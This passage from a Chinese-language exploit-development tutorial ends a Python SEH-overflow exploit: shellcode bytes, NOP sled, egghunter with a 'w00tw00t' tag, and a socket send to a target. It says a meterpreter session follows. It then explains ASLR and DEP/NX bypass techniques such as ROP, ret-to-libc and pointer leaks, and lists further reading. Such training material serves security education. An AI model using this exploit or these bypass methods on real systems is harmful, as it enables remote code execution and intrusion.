        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        nop = "\x90" * 301
        tag = "w00tw00t"
        buffer1 = "USV "
        buffer1 += nop * 2 + "\x90" * 360
        buffer1 += nseh + seh # 8
        buffer1 += "\x90" * 6 #
        buffer1 += egghunter
        buffer1 += nop
        buffer1 += tag
        buffer1 += buffer
        buffer1 += "\x90" * (3504 - len(buffer))
        buffer1 += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer1)
        print "Sent!!"
        sock.close()
```

1.  我们继续将其保存为`script.py`并使用`python script.py`运行它。

1.  而且，我们应该有一个等待我们的 meterpreter 会话。

我们编写的利用代码可能无法在每个系统上以完全相同的方式工作，因为有多个依赖项取决于操作系统版本、软件版本等。

# 另请参阅

+   [`www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/`](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)

+   [`www.fuzzysecurity.com/tutorials/expDev/4.html`](http://www.fuzzysecurity.com/tutorials/expDev/4.html)

# ASLR 和 NX 绕过概述

**地址空间布局随机化**（**ASLR**）于 2001 年由 PaX 项目作为 Linux 补丁引入，并集成到 Windows Vista 和后来的操作系统中。这是一种内存保护，通过随机化可执行文件在内存中加载的位置，可以防止缓冲区溢出。**数据执行防护**（**DEP**）或**不执行**（**NX**）也是在 Windows Vista 上的 Internet Explorer 7 中引入的，它通过阻止从内存中标记为不可执行的代码执行来防止缓冲区溢出。

# 如何做...

我们首先需要规避 ASLR。基本上有两种方式可以绕过 ASLR：

1.  我们寻找在内存中加载的任何反 ASLR 模块。我们将在固定位置上有任何模块的基地址。从这里，我们可以使用**返回导向编程**（**ROP**）方法。我们基本上使用代码的小部分，然后是返回指令，并链式连接所有内容以获得所需的结果：


来源：https://www.slideshare.net/dataera/remix-ondemand-live-randomization-finegrained-live-aslr-during-runtime

1.  我们在这里获得指针泄漏/内存泄漏，并调整偏移量以获取泄漏指针的模块的基地址。

1.  接下来，我们需要绕过 NX/DEP。为此，我们使用众所周知的*ret-to-libc*攻击（在 Linux 中）或 ROP 链接（在 Windows 中）。这种方法允许我们使用`libc`函数来执行我们本来会用 shellcode 完成的任务。

1.  还有一种用于绕过 32 位系统中 ASLR 的方法，因为 32 位与 64 位系统相比具有相对较小的地址空间。这使得随机化范围较小且可行于暴力破解。

1.  这基本上是绕过 ASLR 和 DEP 的基本概念。还有许多更高级的编写利用程序的方法，随着补丁的应用，每天都会发现新的绕过方法。

# 另请参阅

+   [`www.trustwave.com/Resources/SpiderLabs-Blog/Baby-s-first-NX-ASLR-bypass/`](https://www.trustwave.com/Resources/SpiderLabs-Blog/Baby-s-first-NX-ASLR-bypass/)

+   [`taishi8117.github.io/2015/11/11/stack-bof-2/`](http://taishi8117.github.io/2015/11/11/stack-bof-2/)

+   [`www.exploit-db.com/docs/17914.pdf`](https://www.exploit-db.com/docs/17914.pdf)

+   [`tekwizz123.blogspot.com/2014/02/bypassing-aslr-and-dep-on-windows-7.html`](http://tekwizz123.blogspot.com/2014/02/bypassing-aslr-and-dep-on-windows-7.html)

+   [`www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/`](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/)
